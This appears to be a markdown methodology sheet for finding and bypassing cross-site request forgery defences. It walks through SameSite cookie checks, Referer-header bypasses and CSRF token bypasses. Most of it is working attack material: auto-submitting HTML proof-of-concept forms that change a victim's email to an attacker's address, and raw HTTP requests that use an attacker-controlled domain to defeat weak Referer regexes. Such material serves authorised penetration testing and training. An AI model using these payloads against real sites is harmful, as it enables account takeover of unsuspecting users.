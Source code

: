 ## CSRF Methodology
<br/>

**Step 1**<br/>
The first thing to check in a CSRF attack is the security headers on the session cookie.
#### `SameSite=Strict` - CSRF Not Possible

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=strict;
```

#### `SameSite=LAX` - CSRF Only Possible on GET Request

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=lax;
```

#### `SameSite=NONE` - CSRF Possible

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=none;
```

**Step 2**<br/>
Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. The following are possible bypasses for the Referer header based CSRF protection.

1) *Referer Header Removed*<br/>
Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted. We can strip the referer using the following META tag.

```html
<meta name="referrer" content="never">
```

*PoC*
```html
<html>
    <body>
        <meta name="referrer" content="never">
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

2) *Referer Header Broken Regex*<br/>
Some websites will use regex to check if the website is contained in the referer. This regex could be broken. 

You can try sending the referer with the target website being a subdomain to your website:
```
POST /change-email HTTP/1.1
Host: target.com
Cookie: session=3HTG8OIPW3TKkVhWvgIMN4Ojija8jijN
Referer: https://target.shelled.io/change-email

email=hacked@gmail.com
```

You can try sending the referer with the target website being a query parameter to your website:
```
POST /change-email HTTP/1.1
Host: target.com
Cookie: session=3HTG8OIPW3TKkVhWvgIMN4Ojija8jijN
Referer: https://shelled.io/change-email?target.com

email=hacked@gmail.com
```

> Note: There is a default browser security mechanism that strips query parameters from the referer header. You can override this behavior by making sure that the response containing your exploit has the Referrer-Policy: unsafe-url header set.

*PoC*
```html
<html>
    <body>
        <meta name="referrer-policy" content="unsafe-url">
        <script>
            history.pushState("", "", "/?target.com")
        </script>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
<br/>

**Step 3**<br/>
If the session cookie’s SameSite value is set to none and the referer header is not being used for CSRF protection, then there is probably a CSRF token in place. The following are common CSRF token bypasses.

Request Method
Sometimes the CSRF token is only being validated in a POST request, you should also try to send the request as a GET request.

```
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
Remove CSRF Token
Some applications correctly validate the token when it is present but skip the validation if the token is omitted.
```

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net~~&csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY~~
```

CSRF Token Tied to User's Session?
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

```
1. Capture a CSRF attack POST request
2. Send request to repeater
3. Drop the request (dropping the request means the CSRF token will not be used, meaning the token is still in the CSRF token pool)
4. Create a CSRF PoC
5. Use the CSRF token in the repeater tab in the CSRF PoC
```






